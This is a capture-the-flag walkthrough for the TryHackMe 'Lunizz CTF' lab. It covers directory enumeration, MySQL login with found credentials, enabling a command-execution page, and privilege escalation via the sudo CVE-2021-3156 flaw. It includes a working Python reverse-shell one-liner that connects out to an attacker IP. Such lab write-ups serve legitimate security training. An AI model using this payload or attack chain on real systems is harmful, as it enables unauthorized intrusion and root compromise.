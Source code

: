 ```yaml
---
description: vulnerable sudo version.
---
```


# 21 - Lunizz CTF

Room Link --> [https://tryhackme.com/room/lunizzctfnd](https://tryhackme.com/room/lunizzctfnd)

### Enumeration

#### Gobuster

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.68.127 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt -t 500 2>/dev/null

# output:
/instructions.txt
/whatever
/hidden
```
{% endcode %}

Navigating to "/whatever" gives us a command injection interface. But we can't execute any cmds.

Seems we found a credential at "/instructions.txt". Seems like a mysql login.

{% code lineNumbers="true" %}
```bash
runcheck:CTF_script_cave_changeme

# login mysql
mysql -h 10.10.68.127 -u runcheck -p

# enumerate the db.
show databases;
use <dbname>;
show tables;
select * from <tablename>
```
{% endcode %}

<figure><img src=".gitbook/assets/image (10) (1) (1).png" alt=""><figcaption><p>logged in</p></figcaption></figure>

We got the column name --> "run".

From the Table “runcheck”, we were able to find the name of the column which looks to be controlling the command executer as it’s value is 0 currently. We can update this value to 1 and check if we can exeute something.

```
update runcheck set run=1;
```

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we can execute cmds now.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

#### Gaining Rev shell.

Start a nc listener, then i used a python one-liner rev shell from payloadallthings to obtain shell.

{% code overflow="wrap" lineNumbers="true" %}
```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.88.214",4445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
{% endcode %}

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

I used "linux-exploit-suggester.sh" to enumerate the machine.

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

It seems like this version of `sudo` is vulnerable to the [CVE-2021-3156](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit) vulnerability. This exploit abuses all sudo versions lower than version `1.8.31`. This vulnerability gives you `root` privileges right away! We should also check which Ubuntu version is installed by running: `lsb_release -a`.&#x20;

Follow the instructions here to get root.

[https://github.com/CptGibbon/CVE-2021-3156](https://github.com/CptGibbon/CVE-2021-3156)

